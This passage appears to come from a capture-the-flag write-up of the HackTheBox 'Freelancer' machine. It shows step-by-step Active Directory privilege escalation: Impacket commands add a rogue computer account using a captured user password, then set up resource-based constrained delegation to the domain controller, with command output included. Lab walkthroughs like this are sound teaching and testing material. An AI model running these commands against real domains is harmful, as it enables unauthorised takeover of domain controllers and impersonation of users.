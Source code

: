 ![Untitled](Freelancer%20ddb658cf8b564ba0b3c161a2c4e057cb/Untitled%2015.png)

If you see the image above, lorra199 is member of AD REcycle bin group which has generic write permission to DC2.

So we can perform Resource Based **Constrained Delegation,** Using this a Domain admin can **allow** a computer to **impersonate a user or computer** against a **service** of a machine.

I will now run, 

```
┌──(kali㉿kali)-[~]
└─$ impacket-addcomputer -computer-name 'HEKER$' -computer-pass 'Heker123@!' -dc-host freelancer.htb -domain-netbios freelancer.htb freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199' 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account HEKER$ with password Heker123@!.
```

The `impacket-addcomputer` command is used to add a computer account to a domain

Now we will use impacket rbcd to delegate:

```
impacket-rbcd -delegate-from 'HEKER$' -delegate-to 'DC$' -dc-ip 10.10.11.5 -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
```
